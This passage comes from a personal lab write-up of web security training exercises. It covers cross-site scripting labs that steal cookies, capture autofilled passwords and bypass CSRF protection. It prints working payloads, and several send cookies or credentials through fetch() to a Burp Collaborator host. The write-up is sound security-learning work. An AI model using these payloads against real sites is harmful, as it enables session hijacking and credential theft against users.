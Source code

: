 Note: We can do this cookie stealing attack without burp collaborator, but we were forced to do it with it because of safety issues. Otherwise we can point the payload to a html page we host on a server which will execute a javascript file which will send us the cookies back. HTB Academy has a bunch of payloads and a practice lab where we can do this without collaborator. Anyways, I was making a mistake with quotes:

```html
<script>fetch('https://BURPID.oastify.com/?cookie=document.cookie');</script>
```

The `document.cookie` must be outside the URL quotes to work. The following payload should work. 

```html
<script>fetch('https://BURPID.oastify.com/?cookie=' + document.cookie);</script>
```

### 23. Exploiting cross-site scripting to capture passwords

Payload that worked:

```html
<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```

Methodology and explanation:

As the previous lab - `22. Exploiting cross-site scripting to steal cookies` the reflection point was in the comment section.

![](/assets/images/XSS/Pasted%20image%2020250726235143.png)

This is one of the most interesting scenarios. I had to refer to the solution. As per my understanding, this abuses the autofill feature in browsers. Basically every time the browser detects the elements with names `username` and `password` it will autofill the saved passwords. As per our payload, it should trigger every time the length of the password field changes. We get a response like the one in the screenshot below.

![](/assets/images/XSS/Pasted%20image%2020250727000347.png)

Simply use the credentials to login.

### 24. Exploiting XSS to bypass CSRF defenses 

Payload that worked:

```html
<script> var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/my-account',true); req.send(); function handleResponse() { var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; var changeReq = new XMLHttpRequest(); changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@test.com') }; </script>
```

Methodology and explanation:

We did a CSRF here using XSS. We used a stored XSS in the comments section to steal the CSRF token of another user. CSRF is a basically when the browser performs unauthorized/unwanted actions, in this case stealing the CSRF token. I had to use the solution myself as this is the first time I am doing a CSRF attack and I don't know javascript as of now.
